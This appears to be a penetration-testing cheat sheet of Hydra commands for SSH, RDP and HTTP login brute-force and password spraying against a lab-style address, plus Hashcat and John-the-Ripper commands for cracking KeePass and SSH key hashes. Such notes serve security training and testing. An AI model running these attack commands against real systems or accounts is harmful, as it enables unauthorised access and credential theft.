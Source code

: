 ## Commands/Tools to attack network services

SSH wordlist attack with Hydra  
``` 
hydra -l myuser -P password.list -s 2222 ssh://10.10.10.43
```

RDP password spray attack with Hydra  
``` 
hydra -L username.list -p "myPassword123" rdp://10.10.10.43
```

HTTP wordlist attack with Hydra  
```
hydra -l myuser -P password.list 10.10.10.43 http-post-form "/login:user_param=user&password_param=^PASS^:Failure Message"
```

## Password cracking

### Hashcat

Useful blog posts that I had written:  
* https://web.archive.org/web/20210615060624/https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/  
* https://web.archive.org/web/20210615064601/https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/

Finding hash mode  
```
hashcat --help | grep -i "hashtype"
```  

#### Example commands  

Cracking a keepass database hash with a wordlist and rules  
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### John-the-Ripper and Hashcat 

Adding Hashcat rules to JTR  
```
sudo nano /etc/john/john.conf

# Append to end of file
[List.Rules:myCustomRules]
c $1 $2 $3 $!
c $1 $2 $3 $@
c $1 $2 $3 $#
```

Using JTR to format hashes  
```ssh2john ../Downloads/id_rsa > ssh.hash```  
There are many hash conversion scripts  
```
$ locate *2john 
/usr/bin/1password2john
/usr/bin/7z2john
/usr/bin/DPAPImk2john
...
```

### John-the-Ripper
john --wordlist=ssh.passwords --rules=myCustomRules ssh.hash
